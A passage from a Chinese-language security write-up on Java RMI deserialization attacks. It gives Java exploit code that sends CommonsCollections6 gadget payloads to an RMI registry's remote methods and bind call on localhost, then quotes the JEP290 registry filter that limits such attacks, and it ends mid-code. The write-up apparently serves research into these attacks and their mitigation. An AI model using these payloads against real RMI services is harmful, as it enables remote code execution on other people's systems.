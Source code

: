 ```java
    }
    public static void genpayload2(){
        try {
            ReflectUtils.enableCustomRMIClassLoader();
            PluginSystem.init(null);
            RMIRegistryEndpoint rmiRegistry = new RMIRegistryEndpoint("127.0.0.1",1099);
            //还记得遍历攻击里我们实现的无依赖获取远程对象存根吗，这里直接套用了。
            RemoteObjectWrapper remoteObj = new RemoteObjectWrapper(rmiRegistry.lookup("r"),"math");
            Object payloadObj = new CC6().getPayload();
            //methodSignature 可以通过javap -s 类名计算
            final String methodSignature = "add(Ljava/lang/Integer;Ljava/lang/Integer;)Ljava/lang/Integer;";
            Long methodHash = computeMethodHash(methodSignature);
            sendRawCall(remoteObj.getHost(),remoteObj.getPort(),remoteObj.objID,-1,methodHash,payloadObj);
        }catch (Throwable t){
            t.printStackTrace();
        }
    }
```

`unmarshalParameters`中有`DeserializationChecker`。所以还是可以避免的

##### 远程方法参数反序列化2(注册中心Registry提供的远程方法)

```java

public class AttackBind {
    public static void main(String[] args) {
        try {
            ReflectUtils.enableCustomRMIClassLoader();
            Object payloadObj = new CC6().getPayload();
            ObjID objID_ = new ObjID(0);
            sendRawCall("127.0.0.1",1099,objID_,0,4905912898345647071L,"Test",payloadObj);
        }catch (Throwable t){
            t.printStackTrace();
        }
    }
}
```

众所周知，在`JEP290`出来之前，这个是没有问题的。在其出来之后，主要的过滤点在与

```java
    private static Status registryFilter(FilterInfo var0) {
        if (registryFilter != null) {
            Status var1 = registryFilter.checkInput(var0);
            if (var1 != Status.UNDECIDED) {
                return var1;
            }
        }

        if (var0.depth() > 20L) {
            return Status.REJECTED;
        } else {
            Class var2 = var0.serialClass();
            if (var2 != null) {
                if (!var2.isArray()) {
                    return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
                } else {
```